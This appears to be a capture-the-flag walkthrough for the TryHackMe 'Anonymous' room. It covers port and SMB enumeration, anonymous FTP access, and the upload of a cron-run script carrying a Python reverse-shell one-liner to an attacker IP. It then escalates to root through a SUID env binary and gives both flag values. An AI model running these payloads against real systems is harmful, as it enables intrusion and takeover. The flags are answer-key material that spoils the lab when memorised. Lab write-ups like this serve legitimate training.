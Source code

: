 ```yaml
---
description: 'https://tryhackme.com/room/anonymous'
---
```


# Anonymous

## Task 1 Pwn

### Enumerate the machine.  How many ports are open?

```text
nmap -sC -sV -T5 -p1-65535 10.10.17.122
```

![](../.gitbook/assets/image%20%28254%29.png)

{% hint style="success" %}
4
{% endhint %}

### What service is running on port 21?

![](../.gitbook/assets/image%20%28253%29.png)

{% hint style="success" %}
ftp
{% endhint %}

### What service is running on ports 139 and 445?

![](../.gitbook/assets/image%20%28252%29.png)

{% hint style="success" %}
smb
{% endhint %}

### There's a share on the user's computer.  What's it called?

```text
enum4linux -S 10.10.17.122
```

![](../.gitbook/assets/image%20%28251%29.png)

{% hint style="success" %}

{% endhint %}

### user.txt 

![](../.gitbook/assets/image%20%28268%29.png)

![](../.gitbook/assets/image%20%28271%29.png)

![](../.gitbook/assets/image%20%28250%29.png)

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md" %}

```text
nc -nvlp 4444

mget *
ls -all
vi clean.sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.4.204",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

ftp 10.10.178.0
anonymous
password
cd scripts
mput clean.sh
y
```

![](../.gitbook/assets/image%20%28259%29.png)

![](../.gitbook/assets/image%20%28266%29.png)

{% hint style="success" %}
90d6f992585815ff991e68748c414740
{% endhint %}

### root.txt

```text
find / -perm -u=s -type f 2>/dev/null
```

{% embed url="https://gtfobins.github.io/gtfobins/env/" %}

```text

env /bin/sh -p
cat /root/root.txt
```

![](../.gitbook/assets/image%20%28257%29.png)

{% hint style="success" %}
4d930091c31a622a7ed10f27999af363
{% endhint %}

